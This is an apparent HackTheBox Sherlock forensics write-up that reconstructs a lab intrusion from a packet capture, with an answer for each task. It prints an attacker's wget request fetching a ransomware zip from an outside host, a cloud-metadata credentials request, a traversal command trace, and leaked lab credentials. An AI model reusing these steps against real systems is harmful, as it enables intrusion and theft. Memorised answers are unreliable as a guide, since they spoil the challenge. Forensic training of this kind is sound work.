


# Knock Knock [Easy]

> **ES:** Ficha mínima — ver plantilla completa en `../../_PLANIFICACION/PLANTILLA_SHERLOCK.md`.
> **EN:** Minimal header — see full template at `../../_PLANIFICACION/PLANTILLA_SHERLOCK.md`.

| Campo | Valor |
|-------|-------|
| **Tipo** | Network Forensics |
| **URL** | https://app.hackthebox.com/sherlocks/knock-knock |
| **Evidencia** | Por verificar / To verify |


:::info Sherlock Scenario

A critical Forela Dev server was targeted by a threat group. The Dev server was accidentally left open to the internet which it was not supposed to be. The senior dev Abdullah told the IT team that the server was fully hardened and it's still difficult to comprehend how the attack took place and how the attacker got access in the first place. Forela recently started its business expansion in Pakistan and Abdullah was the one IN charge of all infrastructure deployment and management. The Security Team need to contain and remediate the threat as soon as possible as any more damage can be devastating for the company, especially at the crucial stage of expanding in other region. Thankfully a packet capture tool was running in the subnet which was set up a few months ago. A packet capture is provided to you around the time of the incident (1-2) days margin because we don't know exactly when the attacker gained access. As our forensics analyst, you have been provided the packet capture to assess how the attacker gained access. Warning : This Sherlock will require an element of OSINT to complete fully.

> [ZH] "一家关键的 Forela Dev 服务器受到了威胁组的攻击。……作为我们的取证分析师，您已被提供数据包捕获文件，以评估攻击者是如何获取访问权限的。警告：此次调查需要一定的开源情报搜集才能完全完成。"
> **ES:** Servidor Dev de Forela expuesto a internet y atacado; Abdullah (dev senior, responsable infra Pakistán) lo creía hardenizado; hay PCAP de ±1-2 días del incidente para determinar el acceso inicial. Requiere OSINT.
> **EN:** Forela Dev server exposed to the internet and attacked; senior dev Abdullah (infra lead, Pakistan) thought it hardened; ±1-2 day PCAP provided to determine initial access. OSINT required.

:::

## 题目数据 / Datos / Data

:::note

> **ES:** Anexo demasiado grande, sin enlace aquí. / **EN:** Attachment too large, no link here.

:::

## 数据预处理 / Preprocesamiento / Preprocessing

> **ES:** PCAP grande: extracción y triaje inicial; vía Archivo → Exportar objetos, en `FTP` aparecen estos ficheros. / **EN:** Large PCAP: initial extraction and triage; via File → Export Objects, these files appear over `FTP`.

| 主机名 / Host | 文件名 / Filename |
| :----------: | :------: |
| 172.31.39.46 | .backup  |
| 172.31.39.46 | fetch.sh |

> **ES:** Contenido de los ficheros: / **EN:** File contents:

```bash title="fetch.sh"
#!/bin/bash

# Define variables
DB_HOST="3.13.65.234"
DB_PORT="3306"
DB_USER="tony.shephard"
DB_PASSWORD="GameOfthronesRocks7865!"
DB_NAME="Internal_Tasks"
QUERY="SELECT * FROM Tasks;"

# Execute query and store result in a variable
RESULT=$(mysql -h $DB_HOST -P $DB_PORT -u $DB_USER -p$DB_PASSWORD $DB_NAME -e "$QUERY")

# Print the result
echo "$RESULT"
```

```plaintext title=".backup"
[options]
    UseSyslog

[FTP-INTERNAL]
    sequence    = 29999,50234,45087
    seq_timeout = 5
    command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 24456 -j ACCEPT
    tcpflags    = syn


# Creds for the other backup server abdullah.yasin:XhlhGame_90HJLDASxfd&hoooad
```

> **ES:** Hipótesis inicial: DB en `3.13.65.234`, solicitante `3.109.209.43` = IP atacante. / **EN:** Initial hypothesis: DB at `3.13.65.234`, requester `3.109.209.43` = attacker IP.

## Task 1 — Puertos abiertos en enum / Open ports in enum

> [ZH] "攻击者在枚举阶段发现了哪些端口是开放的？"
> **ES:** ¿Qué puertos halló abiertos el atacante en enumeración?
> **EN:** Which ports did the attacker find open during enumeration?

> **ES:** Puertos según SYN+ACK (`tcp.flags.syn==1 and tcp.flags.ack==1`). / **EN:** Ports per SYN+ACK (`tcp.flags.syn==1 and tcp.flags.ack==1`).

> **ES:** Filtro: / **EN:** Filter:

```plaintext
tcp.flags.syn==1 and tcp.flags.ack==1
```



> **ES:** Mucho volumen: acotar a la IP DB y al rango del escaneo. / **EN:** Too much volume: scope to the DB IP and the scan window.

> **ES:** Filtro: / **EN:** Filter:

```plaintext
tcp.flags.syn==1 and tcp.flags.ack==1 and ip.addr==3.109.209.43
```

> **ES:** Hubo sesiones posteriores: confirmar el momento del scan en Wireshark y segmentar (`frame.number<=207500`). / **EN:** Later sessions exist: confirm the scan window in Wireshark and slice it (`frame.number<=207500`).

```plaintext
tcp.flags.syn==1 and tcp.flags.ack==1 and ip.addr==3.109.209.43 && frame.number<=207500
```

> **ES:** Muchos duplicados: deduplicar con tshark + sort + uniq + sed. / **EN:** Many duplicates: dedupe with tshark + sort + uniq + sed.

```bash
$tshark -r Capture.pcap -T fields -Y "tcp.flags.syn==1 and tcp.flags.ack==1 and ip.addr==3.109.209.43 && frame.number<=207500" -e tcp.srcport | sort -n | uniq | sed ':a;N;$!ba;s/\n/,/g'
21,22,3306,6379,8086
```

```plaintext title="Answer"
21,22,3306,6379,8086
```

## Task 2 — Inicio del ataque UTC / Attack start UTC

> [ZH] "攻击者开始对服务器进行攻击的世界协调时间是多少？"
> **ES:** ¿A qué hora UTC empezó el ataque al servidor?
> **EN:** At what UTC time did the attack on the server start?

> **ES:** Fijar objetivo en `3.13.65.234` y filtrar `ip.addr==3.109.209.43`: el primer registro es el inicio del port-scan. / **EN:** Scope to `3.13.65.234` and filter `ip.addr==3.109.209.43`: the first record is the port-scan start.

`ip.addr==3.109.209.43`

```plaintext title="Answer"
21/03/2023 10:42:23
```

## Task 3 — MITRE de acceso inicial / Initial-access MITRE

> [ZH] "攻击者用于获取初始访问权限的 MITRE 技术 ID 是什么？"
> **ES:** ¿Qué ID MITRE corresponde al acceso inicial?
> **EN:** Which MITRE technique ID covers the initial access?

> **ES:** PCAP grande: exportar `ip.addr==3.109.209.43 && ip.addr==172.31.39.46` como `1.pcap`. / **EN:** Large PCAP: export `ip.addr==3.109.209.43 && ip.addr==172.31.39.46` as `1.pcap`.

```plaintext
ip.addr==3.109.209.43 && ip.addr==172.31.39.46
```

> **ES:** El inicio es full port-scan: recortar con el filtro y exportar como `2.pcap`; luego se ven intentos FTP masivos con un diccionario fijo por usuario = password spraying. / **EN:** The start is a full port-scan: trim with the filter and export as `2.pcap`; then massive FTP logins with a fixed per-user dictionary appear = password spraying.

```plaintext
frame.number > 131092
```

```plaintext title="Answer"
T1110.003
```

## Task 4 — Credenciales del foothold / Foothold credentials

> [ZH] "用于获取初始立足点的有效凭据集是什么？"
> **ES:** ¿Qué credenciales válidas dieron el foothold inicial?
> **EN:** Which valid credential set gave the initial foothold?

> **ES:** Filtrar el spray FTP y avanzar hasta el login exitoso. / **EN:** Filter the FTP spray and scroll to the successful login.

```plaintext title="Answer"
tony.shephard:Summer2023!
```

## Task 5 — IP maliciosa inicial / Initial malicious IP

> [ZH] "攻击者用于初始访问的恶意 IP 地址是多少？"
> **ES:** ¿Cuál es la IP maliciosa del acceso inicial?
> **EN:** What is the malicious IP used for initial access?

```plaintext title="Answer"
3.109.209.43
```

## Task 6 — Fichero con config y creds / Config-and-creds file

> [ZH] "包含一些配置数据和凭据的文件名称是什么？"
> **ES:** ¿Qué fichero contiene datos de config y credenciales?
> **EN:** Which file holds config data and credentials?

> **ES:** Ya recuperado en preprocesamiento (FTP). / **EN:** Already recovered in preprocessing (FTP).

```plaintext title="Answer"
.backup
```

## Task 7 — Puerto del servicio crítico / Critical service port

> [ZH] "关键服务运行在哪个端口上？"
> **ES:** ¿En qué puerto corre el servicio crítico?
> **EN:** On which port does the critical service run?

> **ES:** Ver la directiva `command` en `.backup`. / **EN:** See the `command` directive in `.backup`.

```plaintext title="Answer"
24456
```

## Task 8 — Técnica del servicio crítico / Critical service technique

> [ZH] "用于访问该关键服务的技术名称是什么？"
> **ES:** ¿Cómo se llama la técnica para alcanzar ese servicio?
> **EN:** What is the name of the technique to reach that service?

> **ES:** `.backup` es config de `knockd` (port knocking). / **EN:** `.backup` is a `knockd` config (port knocking).

> **ES:** Referencia: / **EN:** Reference:

[MITRE ATT&CK: Port knocking](https://resources.infosecinstitute.com/topics/mitre-attck/mitre-attck-port-knocking/)

```plaintext title="Answer"
Port knocking
```

## Task 9 — Puertos del knock / Knock ports

> [ZH] "需要与之交互以达到关键服务的哪些端口？"
> **ES:** ¿Con qué puertos hay que interactuar para llegar al servicio?
> **EN:** Which ports must be knocked to reach the service?

> **ES:** Ver `sequence` en `.backup`. / **EN:** See `sequence` in `.backup`.

```plaintext title="Answer"
29999,45087,50234
```

## Task 10 — Fin del knock UTC / Knock end UTC

> [ZH] "与上一个问题端口交互结束的世界协调时间是多少？"
> **ES:** ¿A qué hora UTC terminó la secuencia knock?
> **EN:** At what UTC time did the knock sequence end?

> **ES:** Filtrar los tres puertos y tomar el registro más tardío. / **EN:** Filter the three ports and take the latest record.

```plaintext
tcp.port==29999 || tcp.port==45087 || tcp.port==50234
```

> **ES:** Tomar el registro más tardío. / **EN:** Take the latest record.

```plaintext title="Answer"
21/03/2023 10:58:50
```

## Task 11 — Creds del servicio crítico / Critical service creds

> [ZH] "用于关键服务的一组有效凭据是什么？"
> **ES:** ¿Qué credenciales válidas abren el servicio crítico?
> **EN:** Which valid credentials open the critical service?

> **ES:** Ver el comentario con creds en `.backup`. / **EN:** See the creds comment in `.backup`.

```plaintext title="Answer"
abdullah.yasin:XhlhGame_90HJLDASxfd&hoooad
```

## Task 12 — Acceso al servidor crítico UTC / Critical server access UTC

> [ZH] "攻击者何时以世界协调时间获得了对关键服务器的访问权限？"
> **ES:** ¿Cuándo (UTC) logró el atacante acceso al servidor crítico?
> **EN:** When (UTC) did the attacker gain access to the critical server?

> **ES:** Re-login con las creds de la Task 11; hora del `230 Login successful.` del servidor. / **EN:** Re-login with Task 11 creds; time of the server's `230 Login successful.`.

```plaintext title="Answer"
21/03/2023 11:00:01
```

## Task 13 — AWS de Abdullah / Abdullah's AWS

> [ZH] "开发者 “Abdullah” 的 AWS 账户 ID 和密码是什么？"
> **ES:** ¿Cuáles son el ID y password AWS del dev Abdullah?
> **EN:** What are dev Abdullah's AWS account ID and password?

> **ES:** Tras el login FTP, extraer `.archived.sql` (tabla `AWS_EC2_DEV`). / **EN:** After FTP login, carve `.archived.sql` (`AWS_EC2_DEV` table).

```sql
DROP TABLE IF EXISTS `AWS_EC2_DEV`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!50503 SET character_set_client = utf8mb4 */;
CREATE TABLE `AWS_EC2_DEV` (
  `NAME` varchar(40) DEFAULT NULL,
  `AccountID` varchar(40) DEFAULT NULL,
  `Password` varchar(60) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `AWS_EC2_DEV`
--

LOCK TABLES `AWS_EC2_DEV` WRITE;
/*!40000 ALTER TABLE `AWS_EC2_DEV` DISABLE KEYS */;
INSERT INTO `AWS_EC2_DEV` VALUES ('Alonzo','341624703104',''),(NULL,NULL,'d;089gjbj]jhTVLXEROP.madsfg'),('Abdullah','391629733297','yiobkod0986Y[adij@IKBDS');
/*!40000 ALTER TABLE `AWS_EC2_DEV` ENABLE KEYS */;
UNLOCK TABLES;
```

```plaintext title="Answer"
391629733297:yiobkod0986Y[adij@IKBDS
```

## Task 14 — Cierre de contratación / Hiring deadline

> [ZH] "Forela 公司招聘开发人员的截止日期是什么时候？"
> **ES:** ¿Cuál es la fecha límite para contratar devs en Forela?
> **EN:** What is Forela's developer hiring deadline?

> **ES:** Extraer `Done.docx` del FTP y leer el gráfico. / **EN:** Carve `Done.docx` from FTP and read the chart.



```plaintext title="Answer"
30/08/2023
```

## Task 15 — Llegada del CEO a Pakistán / CEO arrival in Pakistan

> [ZH] "Forela 公司的 CEO 计划何时抵达巴基斯坦？"
> **ES:** ¿Cuándo planea llegar el CEO de Forela a Pakistán?
> **EN:** When does Forela's CEO plan to arrive in Pakistan?

> **ES:** Extraer `reminder.txt` del FTP. / **EN:** Carve `reminder.txt` from FTP.

```plaintext
I am so stupid and dump, i keep forgetting about Forela CEO Happy grunwald visiting Pakistan to start the buisness operations
here.I have so many tasks to complete so there are no problems once the Forela Office opens here in Lahore. I am writing this
note and placing it on all my remote servers where i login almost daily, just so i dont make a fool of myself and get the
urgent tasks done.

He is to arrive in my city on 8 march 2023 :))

i am finally so happy that we are getting a physical office opening here.
```

```plaintext title="Answer"
08/03/2023
```

## Task 16 — Cuenta con /bin/bash / Account with /bin/bash

> [ZH] "攻击者能够执行目录遍历并逃离 chroot 监狱。这导致攻击者可以像普通用户一样在文件系统中漫游。除了 root 之外，具有 `/bin/bash` 作为默认 Shell 的帐户的用户名是什么？"
> **ES:** Con directory traversal escapó del chroot y navega como usuario normal: además de root, ¿qué cuenta usa `/bin/bash` por defecto?
> **EN:** Via directory traversal he escaped chroot and roams as a normal user: besides root, which account defaults to `/bin/bash`?

> **ES:** Buscar `/etc/passwd` en el tráfico FTP. / **EN:** Hunt for `/etc/passwd` in FTP traffic.

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
landscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
ec2-instance-connect:x:113:65534::/nonexistent:/usr/sbin/nologin
_chrony:x:114:121:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
abdullah.yasin:x:1001:1001::/home/abdullah.yasin:/bin/sh
tony.shephard:x:1002:1002::/home/tony.shephard:/bin/sh
ftp:x:115:123:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
redis:x:116:124::/var/lib/redis:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:118:126::/var/spool/postfix:/usr/sbin/nologin
influxdb:x:119:65534::/var/lib/influxdb:/usr/sbin/nologin
cyberjunkie:x:1003:1003:,,,:/home/cyberjunkie:/bin/bash
```

```plaintext title="Answer"
cyberjunkie
```

## Task 17 — Ruta del fichero SSH / SSH file path

> [ZH] "导致攻击者获得对服务器的 ssh 访问权限的文件的完整路径是什么？"
> **ES:** ¿Qué ruta completa dio al atacante el acceso SSH?
> **EN:** Which full path gave the attacker SSH access?

> **ES:** Trazar los comandos FTP del atacante. / **EN:** Trace the attacker's FTP commands.

```plaintext
CWD ../
TYPE A
EPSV
LIST -la
CWD ../
EPSV
LIST -la
CWD opt
EPSV
LIST -la
EPSV
NLST
CWD reminders
EPSV
LIST -la
EPSV
NLST
TYPE I
SIZE .reminder
EPSV
RETR .reminder
MDTM .reminder
```

```plaintext title="Answer"
/opt/reminders/.reminder
```

## Task 18 — Password SSH total / Full SSH password

> [ZH] "攻击者用于访问服务器并获取完全访问权限的 SSH 密码是什么？"
> **ES:** ¿Qué password SSH dio acceso total al servidor?
> **EN:** Which SSH password gave full server access?

> **ES:** Leer el `reminder`/`.reminder` del FTP. / **EN:** Read the FTP `reminder`/`.reminder`.

```plaintext
A reminder to clean up the github repo. Some sensitive data could have been leaked from there
```

> **ES:** Buscar en Google con: / **EN:** Google with:

```plaintext
site:github.com ​​forela
```

> **ES:** Repo hallado: / **EN:** Repo found:

[forela-finance / forela-dev](https://github.com/forela-finance/forela-dev/)

> **ES:** En el historial, el commit filtra el secreto: / **EN:** In history, the commit leaks the secret:

[commit 182da42](https://github.com/forela-finance/forela-dev/commit/182da42155d49211abc628c01afe8bda5ab8fcae)

```xml
tasks:
- name: Log in to remote server via SSH
    become_user: root
    become_method: sudo
    vars:
    ssh_user: cyberjunkie
    ssh_password: YHUIhnollouhdnoamjndlyvbl398782bapd
    shell: sshpass -p {{ssh_password}} ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null {{ ssh_user }}@{{ inventory_hostname }} 'echo"Logged in via SSH"'
```

```plaintext title="Answer"
YHUIhnollouhdnoamjndlyvbl398782bapd
```

## Task 19 — URL del ransomware / Ransomware URL

> [ZH] "攻击者下载勒索软件的完整 URL 是什么？"
> **ES:** ¿Cuál es la URL completa del ransomware descargado?
> **EN:** What is the full URL the ransomware was downloaded from?

> **ES:** Volver al PCAP original y aislar la víctima como `3.pcap`. / **EN:** Go back to the original PCAP and isolate the victim as `3.pcap`.

```plaintext
ip.addr == 172.31.39.46
```

> **ES:** Hipótesis: entrega por HTTP; listar URIs con tshark. / **EN:** Hypothesis: HTTP delivery; list URIs with tshark.

```bash
$tshark -r Capture.pcap -T fields -Y "ip.addr == 172.31.39.46 && http" -e http.request.full_uri | sed '/^\s*$/d' | sort | uniq
http://13.233.179.35/PKCampaign/Targets/Forela/Ransomware2_server.zip
http://169.254.169.254/latest/api/token
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-backports/InRelease
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy/InRelease
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/InRelease
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/main/binary-amd64/by-hash/SHA256/036db7ea401f6a8baabe8d664e58d453c86efd6102fe1a9aeb8b737a17aff4de,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/universe/binary-amd64/by-hash/SHA256/d0465b04f6b1d7e17dd1af9b929d96827092178a7faba776a6e0768e60424d50,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/universe/i18n/by-hash/SHA256/0c6ba92182b6b1f3d77d0ccdf57c9c6c33d1d8e201e008d74f708aa0da31efd4,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/universe/cnf/by-hash/SHA256/97faf12ba5ec84e9143cc7e23395cc65b5a2364de57b42048bd3cbcd3a65ae43
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/main/binary-amd64/by-hash/SHA256/b750a69409f259978d4621fa515b5b517f9b5483053c162ff88184912b9eb2b1,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/main/cnf/by-hash/SHA256/ef49512a6bea71ac7200f86629f43d6d42ef738e120a5783b3c8f591c7eb8baa,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/universe/binary-amd64/by-hash/SHA256/d43c8427e1b8959ca5768e4d3a98a28b7ebe7a22778a43e405cb1e6eb5f707b1,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/dists/jammy-updates/universe/cnf/by-hash/SHA256/8ab3721dfba09b0638c4ae3b665beafea8aeab781a1afdc5784db8937a87e0c8
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/c/curl/curl_7.81.0-1ubuntu1.10_amd64.deb
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/c/curl/libcurl3-gnutls_7.81.0-1ubuntu1.10_amd64.deb
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/c/curl/libcurl4_7.81.0-1ubuntu1.10_amd64.deb
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/libpython3.10_3.10.6-1~22.04.2ubuntu1_amd64.deb
http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/python3.10_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/libpython3.10-stdlib_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/python3.10-minimal_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/p/python3.10/libpython3.10-minimal_3.10.6-1~22.04.2ubuntu1_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim_8.2.3995-1ubuntu2.4_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim-tiny_8.2.3995-1ubuntu2.4_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim-runtime_8.2.3995-1ubuntu2.4_all.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/xxd_8.2.3995-1ubuntu2.4_amd64.deb,http://ap-south-1.ec2.archive.ubuntu.com/ubuntu/pool/main/v/vim/vim-common_8.2.3995-1ubuntu2.4_all.deb
http://freedomhouse.org/
http://security.ubuntu.com/ubuntu/dists/jammy-security/InRelease
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/binary-amd64/by-hash/SHA256/ec306b867cbab332da874121ce3136550a7f9a936743c1041c22f08f6e5f6eb0
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/binary-amd64/by-hash/SHA256/f87dd0f78353885e2ca3a076c140b4cb8dea439c9e4697662b949af3ecdfc75e
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/cnf/by-hash/SHA256/4d596208dfa7f6067d00b1f8caf4435cdde390a891c62547d339302c978a0363,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/binary-amd64/by-hash/SHA256/31c71a5183c29e5a698e323fcbb326bad708c4d8fec6f6f4b03091d52725494c,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/cnf/by-hash/SHA256/75fedcff7f323ba1fd5ba250aa66d41672201ea7eb367e9b7e1eec8e7cac9927
http://security.ubuntu.com/ubuntu/dists/jammy-security/main/i18n/by-hash/SHA256/84b120f9c8d1c1e9223cfc65ceddd5d19568c6bd8aa0d637375af27004fb896f,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/binary-amd64/by-hash/SHA256/6bdf67e1c6b56dc78ff85924da2ece8e8b2d764dae10351fedd36ae60137e587,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/i18n/by-hash/SHA256/8482930a283e7c0ecaf92fea95a917a62528ff8177a3ae35d71df0c3d486cf9d,http://security.ubuntu.com/ubuntu/dists/jammy-security/universe/cnf/by-hash/SHA256/2edba9e0d56d87e074af1b0b769b8d7ecf905ecfa9435d1e1da5c18be38da66b
```

> **ES:** Ahí aparece un zip sospechoso. / **EN:** A suspicious zip shows up there.

```plaintext title="Answer"
http://13.233.179.35/PKCampaign/Targets/Forela/Ransomware2_server.zip
```

## Task 20 — Downloader + versión / Downloader tool + version

> [ZH] "攻击者用于下载勒索软件的工具 / 实用程序名称和版本是什么？"
> **ES:** ¿Qué herramienta/versión descargó el ransomware?
> **EN:** Which tool/version downloaded the ransomware?

> **ES:** Consultar con este filtro. / **EN:** Query with this filter.

```plaintext
ip.addr == 172.31.39.46 && http && ip.addr==13.233.179.35
```

> **ES:** Mirar el `user-agent` del request HTTP. / **EN:** Check the HTTP request `user-agent`.

```plaintext
GET /PKCampaign/Targets/Forela/Ransomware2_server.zip HTTP/1.1
Host: 13.233.179.35
User-Agent: Wget/1.21.2
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
```

```plaintext title="Answer"
Wget/1.21.2
```

## Task 21 — Nombre del ransomware / Ransomware name

> [ZH] "勒索软件的名称是什么？"
> **ES:** ¿Cómo se llama el ransomware?
> **EN:** What is the ransomware called?

> **ES:** Extraer el zip y analizar con `binwalk` hasta `README.md`. / **EN:** Extract the zip and analyze with `binwalk` down to `README.md`.

```plaintext title="Answer"
GonnaCry
```

## Fuentes / Sources

- Dificultad y categoria: [momenbasel/htb-writeups - Sherlocks index](https://github.com/momenbasel/htb-writeups/blob/main/sherlocks/README.md) - fecha de acceso: 2026-09-24.
- Autor notas: Apuromafo.

---

## ⚠️ Aviso Legal / Disclaimer

> **ES:** Uso educativo y personal únicamente. No afiliado a HackTheBox. Evidencia y respuestas con contexto, no solo la respuesta suelta.
> **EN:** Educational and personal use only. Not affiliated with HackTheBox. Evidence and contextual answers, not bare answers.

_Fecha de edición: 2026-09-24_
